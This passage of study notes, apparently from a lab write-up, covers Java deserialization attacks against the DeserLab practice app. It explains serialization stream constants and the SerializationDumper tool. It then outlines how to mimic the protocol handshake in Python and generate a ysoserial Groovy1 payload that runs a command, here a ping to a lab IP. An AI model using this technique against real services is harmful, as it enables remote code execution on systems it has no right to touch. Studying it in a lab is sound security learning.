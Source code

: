 | 0x7C | TC_LONGSTRING |
| 0x7D | TC_PROXYCLASSDESC |
| 0x7E | TC_ENUM |

Can inspect **any Java serialized stream** to identify the object it contains using the [**Java Serialization Dumper**](https://github.com/NickstaDB/SerializationDumper) tool

Also, can build the tool using the supplied [**build.sh**](http://build.sh) script. The tool’s usage is straightforward, as the tool takes just a hex representation of serialized bytes and dumps the objects the byte stream consists.

- `java -jar SerializationDumper.jar aced00057704f000baaa77020101737200146e622e646573657265486173682657175657374e52ce9a92ac1f991020024c000a64617461546f48617368007472696e673b4c00077468654861736871007e0001787074000a74657374737472696e6774002064363763356532636535623031633939663933265333864656636535638`
    
    ![Untitled](../assets/img/study/attackserialization/Untitled%2034.png)
    

The tool dumps **every object** that is contained within the serialized stream. 

The simple netcat listener/client was not enough to start a `,,serialized conversation"` since lots of serialized objects were sent to the target. 

You might also want to study the source code of the tool to see where certain parts of the serialized stream were generated and sent.

But how can we got from **replacing single objects to** **executing code**? 

- Build a  python script that will mimic the initial serialized handshake - 0xaced0005
- Replace the serialized data - the string hash, with the **ysoserial** payload

Based on the output of `Serialization Dumper` part of the communication must be mimicked using python. This includes the handshake, 2 `TC_BLOCKDATA` structures and the username.

The final payload is generated using **Groovy library** is chosen since it’s utilized by DeserLab.  

- `java -jar ysoserial-all.jar Groovy1 "ping 192.168.83.129" > p.bin`
    